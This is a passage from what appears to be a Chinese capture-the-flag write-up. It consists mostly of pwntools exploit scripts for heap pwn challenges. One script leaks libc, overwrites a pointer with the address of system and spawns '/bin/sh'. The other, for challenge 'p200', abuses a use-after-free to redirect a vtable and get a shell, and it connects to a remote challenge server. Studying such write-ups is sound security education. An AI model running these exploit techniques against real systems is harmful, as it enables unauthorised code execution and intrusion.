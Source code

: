 ```
    p.recvuntil("Input your content:")
    p.send(con)
def edit(con):
    p.recvuntil("5.Exit")
    p.sendline("3")
    p.send(con)
def pwn():
    for x in xrange(263007):
        dele()
    p.recvuntil("5.Exit")
    p.clean()
    p.sendline("2")
    data = p.recvuntil('n')[:-1]
    data = u64(data.ljust(8,'x00'))
    libc = data - atoi_off
    system  = libc + system_off
    one = libc + one_off
    print "system addr is "+ hex(system)
    payload = p64(system)
    edit(payload)
    print pidof(p)
    p.sendline("/bin/shx00")
    p.interactive()
pwn()
```

<br>

**10.p200    类型：PWN    分值：200分**

先调戏一会儿程序吧，好嘞，崩了，与题目描述一致为uaf

[![](https://p0.ssl.qhimg.com/t017d213c0880bbcee9.png)](https://p0.ssl.qhimg.com/t017d213c0880bbcee9.png)

利用思路：通过uaf修改虚表到内置system函数

exp如下：



```
from pwn import *
context.log_level = 'debug'
p = remote("106.75.8.58",12333)#106.75.8.58 12333
#p = process("./p200")
def pwn():
    p.recvuntil("1. use, 2. after, 3. free")
    p.sendline("3")
    p.recvuntil("1. use, 2. after, 3. free")
    p.sendline("2")
    p.recvuntil("length:")
    p.sendline("48")
    p.sendline(p64(0x602d70)*3)
    p.recvuntil("1. use, 2. after, 3. free")
    p.sendline("2")
    p.recvuntil("length:")
    p.sendline("48")
    p.sendline(p64(0x0602d70)*3)
      #print pidof(p)
      #raw_input()
    p.interactive()
pwn()
```
